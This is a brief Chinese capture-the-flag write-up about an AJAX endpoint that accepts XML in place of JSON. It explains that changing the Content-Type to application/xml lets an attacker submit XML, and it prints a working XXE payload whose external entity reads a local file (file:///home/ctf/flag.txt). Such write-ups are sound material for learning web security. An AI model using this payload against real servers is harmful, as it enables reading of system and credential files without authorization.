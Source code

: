 很明显是AJAX异步传送数据

在一般的异步网站都会有异步数据与服务器的交互，一般传送数据为json但如果将传送的数据格式改为xml。有很大的可能服务器会解析你异步上传的xml脚本执行想要干的事

![ajax](/images/ajax.png)

解题步骤：
要先修改Content-Type: application/xml

然后加入xml脚本即可

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY myentity SYSTEM "file:///home/ctf/flag.txt" >]>
<abc>&myentity;</abc>
```

![xml](/images/xml.png)
